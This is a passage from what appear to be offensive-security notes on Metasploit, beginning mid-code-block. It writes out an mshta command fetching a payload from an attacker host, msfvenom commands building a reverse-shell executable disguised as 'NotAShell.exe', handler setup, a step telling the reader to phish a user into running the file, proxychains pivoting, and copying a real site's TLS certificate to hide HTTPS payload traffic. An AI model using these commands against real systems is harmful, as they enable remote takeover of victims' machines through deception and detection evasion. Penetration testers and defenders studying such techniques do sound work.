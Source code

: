 	  # Victim
	  mshta.exe http://<ATTACKER_IP>:8080/<GENERATED_NAME>.hpa
	  ```
	- Let's see how to create a reverve shell with a staged payload (You will need a specific handler but it will be smaller) using phishing to a Windows system:
		1. Usamos `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATACKER_IP> LPORT=53 -f exe -o NotAShell.exe` para crear el ejecutable que mandaremos
		2. We will now need to launch Metasploit and wait for someone to run the created file before:
		```
		msfconsole
		use exploit/multi/handler
		set payload windows/meterpreter/reverse_tcp
		set LPORT 53
		set LHOST <the same address used with msfvenom>
		exploit -j
		```
		3. Now comes the part where you send the email trying to convince the user to run your file
	- In case you want to use any tool external to metasploit we can do the following:
		1. Open a socks4a proxy from metasploit to use the route we've put in before
		2. Once with that done, let's go to the file `/etc/proxychains.conf` and add a line of which proxy to use (Example: `socks4 127.0.0.1 8080`)
		3. With the `proxychains` command in front of any command you can send that command through your proxy
	- You can create scripts for metasploit and make common workflows faster `msfconsole -r resourcescript.rc`
	- To avoid IDs/IPs we can do the following to avoid Metasploit from using the default TLS certificate with `exploit/multi/handler` when using HTTPS payloads:
		1. Using `auxiliary/gather/impersonate_ssl`, copy a TLS certificate from a website
		2. Now, from Metasploit console generate the required payload with some extra variables (The TLS certificate path is provided by `auxiliary/gather/impersonate_ssl` when it finishes):
		   ```
		   msf payload(reverse_http) > use payload/windows/meterpreter/reverse_https
		   msf payload(reverse_https) > set stagerverifysslcert true
		   stagerverifysslcert => true
	       msf payload(reverse_https) > set HANDLERSSLCERT /home/kali/.msf4/loot/20220807124850_default_2.17.153.99_2.17.153.99_pem_696944.pem
		   HANDLERSSLCERT => /home/kali/.msf4/loot/20220807124850_default_2.17.153.99_2.17.153.99_pem_696944.pem
		   msf payload(reverse_https) > set LHOST 10.0.2.15
		   LHOST => 10.0.2.15
		   msf payload(reverse_https) > set LPORT 8080
		   LPORT => 8080
		   msf payload(reverse_https) > generate -f exe -o /tmp/payload.exe
		   [*] Writing 73802 bytes to /tmp/payload.exe...
		   ```
		3. Lastly, prepare the `exploit/multi/handler` module:
		   ```
		   msf payload(reverse_https) > use exploit/multi/handler 
           msf exploit(handler) > set LHOST 10.0.2.15
		   LHOST => 10.0.2.15
		   msf exploit(handler) > set LPORT 8080
		   LPORT => 8080
		   msf exploit(handler) > set HANDLERSSLCERT /home/kali/.msf4/loot/20220807124850_default_2.17.153.99_2.17.153.99_pem_696944.pem
		   HANDLERSSLCERT => /home/kali/.msf4/loot/20220807124850_default_2.17.153.99_2.17.153.99_pem_696944.pem
		   msf exploit(handler) > set stagerverifysslcert true
		   stagerverifysslcert => true
		   msf exploit(handler) > exploit -j
